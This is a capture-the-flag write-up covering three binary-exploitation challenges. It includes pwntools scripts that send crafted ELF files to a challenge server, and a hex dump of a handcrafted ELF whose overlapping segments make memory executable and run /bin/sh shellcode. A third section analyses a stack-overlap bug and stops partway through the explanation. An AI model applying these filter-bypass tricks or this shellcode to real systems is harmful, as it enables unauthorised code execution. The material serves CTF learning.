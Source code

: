 
1. Extremely Lame Filters 1
2. Extremely Lame Filters 2
3. squ1rrel-logon

If you want to get binary or bytes of ELF probs, DM me(Discord : guardianch)

--- 
# Extremely Lame Filters 1

`elf.py` analyze input ELF file.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!!"))
elf = parse(data)

for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")

elf.run()
```

`fairy.py` check sections flag of input file. If there is EXECINSTR flag in `sh_flags`, program turns off. However, `sh_flags` doesn't affect execution of the program, so just remove every EXECINSTR flag. funny trick lol. If section's flag is `06`, change it to `02`. After manipulating, send it to server.

# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5002')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex_nofilter', 'rb').read())
p.sendlineafter(b'!!', dt)
p.interactive()
```

---
# Extremely Lame Filters 2

`elf.py` is same as last prob.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!! (almost any)"))
elf = parse(data)

if elf.header.e_type != constants.ET_EXEC:
    print("!!")
    exit(1)

for segment in elf.segments:
    if segment.p_flags & SegmentFlags.X:
        content = elf.content(segment)
        for byte in content:
            if byte != 0:
                print(">:(")
                exit(1)

elf.run()
```

`e_type` should be `ET_EXEC`. It means elf must not have any linking. It is resolved by write shellcode and compile it. Second, it check segment's `p_flags`. `p_flags` affect program execution, so we can't use method used to solve `Extremely Lame Filters 1`. We need to know new trick haha.
First, load the bytes with RW permission, and load same position with RWX permission, but very small length. In this case, because the program data is allocated in units of one page, the permission of that page changes to RWX. However, it check only a little bytes. It's easy to say, but there's actually more to care about.

```
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
00000010: 0200 3e00 0100 0000 e800 0100 0000 0000  ..>.............
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 4000 3800 0400 4000 0000 0000  ....@.8...@.....
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0100 0000 0600 0000 0800 0000 0000 0000  ................
00000080: 0800 0100 0000 0000 0800 0100 0000 0000  ................
00000090: f500 0000 0000 0000 f500 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0100 0000 0700 0000  ................
000000b0: 0800 0000 0000 0000 0800 0100 0000 0000  ................
000000c0: 0800 0100 0000 0000 0800 0000 0000 0000  ................
000000d0: 0800 0000 0000 0000 0002 0000 0000 0000  ................
000000e0: 2f62 696e 2f73 6800 bf01 0102 0181 f7e1  /bin/sh.........
000000f0: 0103 0131 d231 f66a 3b58 0f05            ...1.1.j;X..
```

```
Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  <unknown>: 464 0x0000000000000000 0x00000001003e0002 0x00000000000100e8
                 0x0000000000000000 0x0000000000000000   W     0x38004000000000
  <unknown>: 400 0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000         0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x00000000000000f5 0x00000000000000f5  RW     0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x0000000000000008 0x0000000000000008  RWE    0x200
```

This is my binary. I set `Number of program headers` to 4, and `Start of program headers` to 0. Therefore program headers 1, 2 is abnormal. Program header 3 which has RW permission load bytes located in 0x8 to 0xfb(end of file), and Set `VirtualAddress` to 0x10008. Program header 4 which has RWX permission load only 8 bytes into the same position. Since bytes located in 0x08 to 0x0f is `\x00`, it can pass the check, and change permission to RWX. my shellcode starts at 0xe8, so set `Entry point address` to `0x100e8`. Now it works!
# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5003')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex4', 'rb').read())
p.sendlineafter(b')', dt)
p.interactive()
```

---
# squ1rrel-logon

```bash
[*] '/mnt/d/squ1rrel/squ1rrel-logon/terminal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    Stripped:   No
```

Partial RELRO, No canary, No PIE. But Nevermind. I don't use these.

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  print_banner();
  pthread_create(&userinfo_thread, 0LL, userinfo, 0LL);
  pthread_create(&auth_thread, 0LL, auth, 0LL);
  pthread_join(auth_thread, 0LL);
  return 0;
}
```

It use two threads.

```C
void *__fastcall auth(void *a1)
{
  char s1[256]; // [rsp+10h] [rbp-210h] BYREF
  char buf[264]; // [rsp+110h] [rbp-110h] BYREF
  int v4; // [rsp+218h] [rbp-8h]
  int fd; // [rsp+21Ch] [rbp-4h]

  fd = open("flag.txt", 0);
  if ( fd < 0 )
  {
    puts("Error initializing authentication. Please contact support if on remote.");
    exit(1);
  }
  v4 = read(fd, buf, 0x100uLL);
  buf[v4 - 1] = 0;
  close(fd);
  pthread_join(userinfo_thread, 0LL);
  printf("\x1B[1;36m[SYSTEM] Enter security token: \x1B[0m");
  readline(s1, 0x100uLL);
  if ( !strcmp(s1, buf) )
  {
    puts("\x1B[1;32m[ACCESS GRANTED] Welcome to the system\x1B[0m");
    system("/bin/sh");
  }
  else
  {
    puts("\x1B[1;31m[ACCESS DENIED] Invalid security token\x1B[0m");
    puts("\x1B[1;31m[SYSTEM] Session terminated\x1B[0m");
  }
  return 0LL;
}
```

`auth` read `flag.txt` content and write in stack. Then `userinfo_thread` operate mainly.

```C
void *__fastcall userinfo(void *a1)
{
  void *v1; // rsp
  void *v2; // rsp
  _QWORD v4[2]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-18h] BYREF
  char *v7; // [rsp+20h] [rbp-10h]
  char *v8; // [rsp+28h] [rbp-8h]

  v4[1] = a1;
  puts("\x1B[1;36m[AUTH] User identification required\x1B[0m");
  printf("First Name Length: ");
  __isoc99_scanf("%ld%*c", &v6);
  printf("Surname Length: ");
  __isoc99_scanf("%ld%*c", &v5);
  if ( v6 > 0x100000000LL || v5 > 0x100000000LL )
  {
    puts("Too long for our systems.");
    exit(1);
  }
  v1 = alloca(16 * ((v6 + 23) / 0x10));
  v8 = (char *)v4;
  v2 = alloca(16 * ((v5 + 23) / 0x10));
  v7 = (char *)v4;
  printf("First Name: ");
  readline(v8, v6);
  printf("Surname: ");
  readline(v7, v5);
  printf("Authenticating Employee %s %s\n", v8, v7);
  return 0LL;
}
```

`alloca` function is like `malloc`, but it use stack space. And don't you think that the name length limit of 0x100000000 is too long? If we input big number, It allocates the stack where `flag.txt` is stored. So we can manipulate this position.